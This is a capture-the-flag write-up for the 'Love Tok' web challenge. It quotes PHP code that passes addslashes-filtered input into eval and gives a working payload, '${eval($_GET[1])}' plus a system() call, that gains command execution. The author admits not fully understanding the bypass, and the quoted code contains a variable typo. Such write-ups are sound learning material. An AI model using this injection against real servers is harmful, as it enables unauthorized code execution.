 ### Love Tok

This challenge uses a similar website to Gunship, however instead of a textbox we are presented with a countdown and a link. Clicking the link will add `format=r` into the url. Lets check the code see if we can exploit this parameter somehow! This lead me to this code:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        //$time = date("'r'", strtotime("'+1 day +1 hour +1 minute 1 second'"));
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');  //$time variable can be exploited
        return isset($time) ? $test : 'Something went terribly wrong'; // This is directly displayed on the page
    }
}
```

Immediately I saw `addslashes` which when googled lead me to believe this could be exploited somhow. However looking down in the code and I saw it used an `eval`. This is defently it!

Pretty straight forward to find a high likely exploitable mistake. Writing the eval out to a more readable state, we can see it uses this 'r' that we have control over. We can see that the `'r'` is coded inside apostrophies. Reading https://www.programmersought.com/article/30723400042/ lead me to believe this could be exploited since anything inside apostrophies bypasses the addslashes and will execute. 

I don't fully understand why this works but the payload given in that blog works for this challenge: `?format=${eval($_GET[1])}&1=system('ls%20../');` Since the 1 is predefined, the `addslashes` doesn't escape the variable. So when we override the value of `1`, it bypasses the filter!

Adding this to the url gives us a list of files in the directory above. Letting us cat the flag!

Great challenge :)